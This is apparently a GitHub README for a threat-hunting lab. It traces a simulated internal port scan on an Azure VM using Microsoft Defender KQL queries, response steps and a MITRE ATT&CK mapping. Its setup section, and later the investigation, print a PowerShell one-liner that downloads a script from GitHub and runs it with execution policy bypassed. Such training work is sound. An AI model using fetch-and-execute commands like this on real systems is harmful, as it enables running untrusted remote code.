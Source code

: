 # 🛡️ Threat Hunting Sudden Network Slowdowns(Simulated)

## 📁 Overview
This project documents the investigation, analysis, and response to an internal network scanning incident using Microsoft Defender for Endpoint (MDE), Azure, and PowerShell. The port scan was traced to a script executed on a Windows VM named `labuser`, using the SYSTEM account.

---

## 💣 Initial Setup: Simulated Attack
Before starting the hunt, a PowerShell-based port scanning script was intentionally executed on a VM to simulate malicious behavior and generate logs for threat hunting.

Script executed:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```

![Ran malicious code inside VM](https://github.com/user-attachments/assets/5b435f36-df4b-456d-8404-925af98891c6)

What the Malicious Script Does:

- The PowerShell script portscan.ps1 simulates an internal reconnaissance attack:

- Scans the IP range 10.0.0.4 to 10.0.0.10.

- Uses Test-NetConnection to ping each host and test for open TCP ports.

- Targets a list of common ports (e.g., 22, 80, 443, 3389).

- Logs results (open/closed) to C:\ProgramData\entropygorilla.log.

- Masquerades as a legitimate Windows process by naming itself RuntimeBroker.exe.
---

## 🚩 Scenario Summary
- A VM showed suspicious `ConnectionFailed` network activity.
- PowerShell script `portscan.ps1` was downloaded and executed.
- The scan targeted the internal subnet (10.0.0.0/16), using common ports.
- The script mimicked a system process (`RuntimeBroker.exe`).
- Activity mapped to multiple MITRE ATT&CK TTPs.

---

## 🧪 Steps Performed

### 1. Preparation
- Hypothesis: An internal asset is scanning local network hosts.
- Reason: High failed connection volume and unrestricted PowerShell use.

### 2. Data Collection
Queried the following tables in MDE Advanced Hunting:
```kql
- `DeviceNetworkEvents`
| where DeviceName == "labuser"
| where ActionType == "ConnectionFailed"
| summarize count() by DeviceName, ActionType, LocalIP
| order by count_
```
![Screenshot 2025-06-15 231048](https://github.com/user-attachments/assets/7e487c1b-0ee1-4e7d-abc6-8632f51eaff2)

### 3. Data Analysis
Confirmed host `10.0.0.95` showed excessive failed connections.
```kql
let IPInQuestion = "10.0.0.95";
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == IPInQuestion
| summarize FailedConnectionsAttempts = count() by DeviceName, ActionType, LocalIP
| order by FailedConnectionsAttempts desc
```

![Screenshot 2025-06-15 232635](https://github.com/user-attachments/assets/861c245d-d388-45ed-8c7e-7c8b45f18334)

### 4. Investigation
Used `DeviceProcessEvents` to locate scripts run during the attack:
```kql
let VMName = "labuser";
DeviceProcessEvents
| where DeviceName == VMName
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, ActionType
```
![Screenshot 2025-06-15 234201](https://github.com/user-attachments/assets/7f84ec6c-769f-4a18-8dfd-0eee0c798a34)

Identified the script:
```
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```
**Logged in to the suspicious account and went to the ProgramData folder and found the portscan.ps1 and clicked to edit to see the whole script**

![Logged in to suspicious VM to check the file and the malicious script](https://github.com/user-attachments/assets/1f5a1ec5-39a8-45c8-975f-6580d39c2f56)

### 5. Response
Steps taken:
- ✅ Isolated the VM (`labuser`) using Microsoft Defender.
- ✅ Removed malicious file: `C:\programdata\portscan.ps1`
- ✅ Rebuilt the VM from Azure Portal.
- ✅ Enabled PowerShell Script Block & Module Logging.

![Screenshot 2025-06-15 234540](https://github.com/user-attachments/assets/0d04f893-ac1f-4b41-8097-2d8bb751c6e2)

### 6. Documentation
**Documented all processes for the threat hunting scenario in this pdf file:
**(file:///C:/Users/arbof/Downloads/FelipeCopy%20of%20Scenario%202_%20Sudden%20Network%20Slowdowns.pdf)**

### 7. Improvement
- 🔐 Hardened PowerShell logging.
- 📊 Created detection rule for excessive `ConnectionFailed` logs.
- 🧼 Reviewed scheduled tasks and services on critical assets.

---

## 🧬 MITRE ATT&CK TTP Mapping
| Tactic              | Technique                            | ID         |
|---------------------|----------------------------------------|------------|
| Discovery           | Network Service Scanning              | T1046      |
| Discovery           | Remote System Discovery               | T1018      |
| Execution           | PowerShell                            | T1059.001  |
| Defense Evasion     | Masquerade Task or Service            | T1036.004  |
| Execution           | User Execution: Malicious File        | T1204.002  |
| Persistence*        | Create/Modify System Process          | T1543.003  |

---

## 📌 Recommendations
- Configure alerts for anomalous PowerShell execution.
- Lock down PowerShell usage via GPO or AppLocker.
- Monitor for file names mimicking system processes.
- Tune SIEM rules to detect local lateral movement patterns.

---

## 🧰 Tools Used
- Microsoft Defender for Endpoint (Advanced Hunting)
- Azure Portal (VM Deployment & Management)
- Windows PowerShell ISE
- PowerShell Logging Registry Policies

---

Project maintained by: Felipe Restrepo
Date: June 16, 2025
